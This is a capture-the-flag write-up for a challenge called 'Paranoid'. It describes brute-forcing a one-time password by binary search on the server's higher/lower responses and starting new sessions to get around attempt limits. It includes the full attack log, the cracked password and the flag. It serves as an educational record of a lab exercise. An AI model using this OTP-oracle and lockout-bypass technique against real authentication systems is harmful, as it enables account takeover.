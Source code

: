 # Paranoid ⭐⭐⭐

[< Go back](../../README.md)

## Description

Pretend it's 1999 and hack the Gibson!

[index.html](./index.html) was provided

## Challenge

I've setup a local environment for testing. This will allow us to view customize the server code into a way to helps us debug and create a brute-force tool.

I came up with [bruteforce.py](./bruteforce.py) to crack the OTP.

For the first step related to the password cracking, due to the fact there were less limitations, the process is a little bit more straight forward, and I could have adatped my tool to also handle the password cracking, but because of time constraints I rolled with the fact that @vhseffect had already brute forced the password. (i.e. "MonkeyBrain")

### Cracking

The tool is a simple binary search algorithm, I implemented it recursively for the lols, it wasn' really necessary to do so, but it's been some time since I did any programming challenge like this, so I wanted to have some fun.

The tool actually handles pretty much anything that could happen gracefully, due to time limitations, or max attempt if the server blocks us, the bruteforce script just rolls back and generates a completely new guid session with the password and tries again.

```
Got GUID: /33169135-1740-4950-ae6f-94dc7cea2d70

[*] Attempting OTP: V (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 49: -1

[*] Attempting OTP: F (State: 0123456789ABCDEFGHIJKLMNOPQRSTU)
[!] Invalid OTP. Tries left: 48: 1

[*] Attempting OTP: N (State: FGHIJKLMNOPQRSTU)
[!] Invalid OTP. Tries left: 47: -1

[*] Attempting OTP: J (State: FGHIJKLM)
[!] Invalid OTP. Tries left: 46: 1

[*] Attempting OTP: L (State: JKLM)
[!] Invalid OTP. Tries left: 45: 1

[*] Attempting OTP: M (State: LM)
[!] Invalid OTP. Tries left: 44: -1

[*] Attempting OTP: LV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 43: 1

[*] Attempting OTP: Lk (State: VWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 42: -1

[*] Attempting OTP: Lc (State: VWXYZabcdefghij)
[!] Invalid OTP. Tries left: 41: 1

[*] Attempting OTP: Lg (State: cdefghij)
[!] Invalid OTP. Tries left: 40: 1

[*] Attempting OTP: Li (State: ghij)
[!] Invalid OTP. Tries left: 39: -1

[*] Attempting OTP: Lh (State: gh)
[!] Invalid OTP. Tries left: 38: -1

[*] Attempting OTP: LgV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 37: 1

[*] Attempting OTP: Lgk (State: VWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 36: 1

[*] Attempting OTP: Lgs (State: klmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 35: 1

[*] Attempting OTP: Lgw (State: stuvwxyz)
[!] Invalid OTP. Tries left: 34: -1

[*] Attempting OTP: Lgu (State: stuv)
[!] Invalid OTP. Tries left: 33: -1

[*] Attempting OTP: Lgt (State: st)
[!] Invalid OTP. Tries left: 32: -1

[*] Attempting OTP: LgsV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 31: 1

[*] Attempting OTP: Lgsk (State: VWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 30: -1

[*] Attempting OTP: Lgsc (State: VWXYZabcdefghij)
[!] Invalid OTP. Tries left: 29: -1

[*] Attempting OTP: LgsY (State: VWXYZab)
[!] Invalid OTP. Tries left: 28: -1

[*] Attempting OTP: LgsW (State: VWX)
[!] Invalid OTP. Tries left: 27: 1

[*] Attempting OTP: LgsX (State: WX)
[!] Invalid OTP. Tries left: 26: 1

[*] Attempting OTP: LgsXV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 25: 1

[*] Attempting OTP: LgsXk (State: VWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 24: 1

[*] Attempting OTP: LgsXs (State: klmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 23: -1

[*] Attempting OTP: LgsXo (State: klmnopqr)
[!] Invalid OTP. Tries left: 22: -1

[*] Attempting OTP: LgsXm (State: klmn)
[!] Invalid OTP. Tries left: 21: 1

[*] Attempting OTP: LgsXn (State: mn)
[!] Invalid OTP. Tries left: 20: -1

[*] Attempting OTP: LgsXmV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 19: -1

[*] Attempting OTP: LgsXmF (State: 0123456789ABCDEFGHIJKLMNOPQRSTU)
[!] Invalid OTP. Tries left: 18: -1

[*] Attempting OTP: LgsXm7 (State: 0123456789ABCDE)
[!] Invalid OTP. Tries left: 17: 1

[*] Attempting OTP: LgsXmB (State: 789ABCDE)
[!] Invalid OTP. Tries left: 16: 1

[*] Attempting OTP: LgsXmD (State: BCDE)
[*] Found OTP: LgsXmD
[*] Flag: CSC{Al9ORi7hMic5_cLa22_Wa5_Co0L_aF73R_AlL}
```
